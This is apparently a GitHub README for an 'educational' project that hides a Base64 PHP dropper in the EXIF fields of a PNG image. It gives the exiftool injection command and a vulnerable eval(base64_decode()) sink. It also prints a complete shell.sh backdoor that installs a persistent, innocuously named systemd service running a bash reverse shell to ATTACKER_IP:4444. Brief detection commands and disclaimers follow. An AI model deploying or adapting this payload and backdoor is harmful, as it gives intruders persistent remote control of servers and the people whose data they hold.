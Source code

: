 ## Overview
This project demonstrates how attackers can embed a Base64-encoded malicious payload inside the EXIF metadata of a valid `.png` image. Once uploaded to a vulnerable server, the image can trigger remote command execution or download further malware.

This educational repository simulates:
- A valid `stealth_shell.png` with hidden malware in its EXIF fields.
- A PHP dropper payload (`base64_php_payload.txt`) that retrieves and executes a persistent backdoor.
- A malicious `shell.sh` that sets up a systemd-based reverse shell.

Author: [BackdoorAli](https://github.com/BackdoorAli)

> For educational purposes only. Do not deploy in production or unethical environments.

---

## Files Included

| File                    | Description |
|-------------------------|-------------|
| `stealth_shell.png`     | Image containing the Base64-encoded PHP payload injected into EXIF fields |
| `base64_php_payload.txt`| The actual Base64-encoded dropper PHP payload |
| `shell.sh`              | Systemd-based reverse shell that gets downloaded and executed |

---

## How the Attack Works

1. Image Creation
   - A valid `.png` image is prepared (e.g., a portrait of myself for this specific project - refer to my GitHub's pfp).

2. Payload Preparation
   - A PHP payload is written that:
     - Uses `curl` to download `shell.sh`.
     - Saves it to `/tmp/.m`.
     - Makes it executable and runs it in the background.

3. EXIF Injection
   - The Base64-encoded PHP is injected into `Comment`, `UserComment`, and `Software` EXIF fields using `exiftool`:
     ```bash
     exiftool \
       -Comment="$(cat base64_php_payload.txt)" \
       -UserComment="$(cat base64_php_payload.txt)" \
       -Software="$(cat base64_php_payload.txt)" \
       stealth_shell.png
     ```

4. Execution (Hypothetical)
   - If a vulnerable backend server extracts the EXIF metadata and passes it to something like:
     ```php
     eval(base64_decode($image_exif_data['Comment']));
     ```
   - Then the PHP dropper is executed, downloads the backdoor, and grants persistent shell access.

---

## Backdoor (`shell.sh`)

This script creates a persistent systemd service that launches a reverse shell to an attacker's machine.

```bash
#!/bin/bash
SERVICE_NAME="system-netupd"
SHELL_CMD="/bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'"

cat <<EOF > /etc/systemd/system/$SERVICE_NAME.service
[Unit]
Description=Network Updater (Critical)
After=network.target

[Service]
ExecStart=$SHELL_CMD
Restart=always
Type=simple

[Install]
WantedBy=multi-user.target
EOF

systemctl daemon-reexec
systemctl daemon-reload
systemctl enable $SERVICE_NAME
systemctl start $SERVICE_NAME
```

Replace `ATTACKER_IP` with your actual listener IP/port. >>> AGAIN, hypothetically! <<<

---

## Detection & Extraction
To view the injected payload:
```bash
exiftool stealth_shell.png | grep -i comment
```

To decode:
```bash
echo "<base64_output>" | base64 -d
```

---

## Defensive measures
See `defense.md` for detailed strategies on detecting and preventing EXIF-based malware delivery.

---

## Disclaimer
This project is for educational and research purposes only. Unauthorized deployment, testing, or use of this payload outside of a legal lab or your own system is strictly prohibited and of YOUR OWN RESPONSIBILITY.
